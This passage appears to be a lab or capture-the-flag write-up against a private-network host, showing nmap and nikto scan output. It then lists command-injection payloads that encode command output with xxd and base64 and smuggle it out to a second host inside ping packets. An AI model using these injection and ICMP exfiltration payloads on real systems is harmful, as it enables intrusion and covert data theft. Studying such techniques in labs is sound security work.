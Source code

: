     TRACEROUTE
    HOP RTT     ADDRESS
    1   0.41 ms 192.168.56.8

    OS and Service detection performed. Please report any incorrect results at https
    Nmap done: 1 IP address (1 host up) scanned in 60.12 seconds

## nikto

```console
└─$ nikto -h http://192.168.56.8
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.8
+ Target Hostname:    192.168.56.8
+ Target Port:        80
+ Start Time:         2021-07-22 18:42:11 (GMT2)
---------------------------------------------------------------------------
+ Server: nginx/1.4.7
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.3
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /debug.php: Possible debug directory/program found.
+ 7921 requests: 6 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-07-22 18:42:35 (GMT2) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```



# Exploit

## Data exfiltration with PING



```console
localhost; echo "test" > /tmp/test; if [ $? -eq 0 ]; then ping -c 1 192.168.56.1; fi
;id| xxd -p -c 16 | while read line; do ping -p $line -c 1 -q 192.168.56.1; done
;id | base64 | xxd -ps -c 16 | while read i; do ping -c1 -s32 -p $i 192.168.56.1; done
;id |  xxd -ps -c 16 | while read i; do ping -c1 -s32 -p $i 192.168.56.1; done

; id |xxd -p -c 4 | while read line; do ping -c 1 -p $line 192.168.56.1; done
;./sysadmin-tool --activate-service| xxd -p -c 4 | while read line; do ping -p $line -c 1 -q 192.168.56.1; done

```
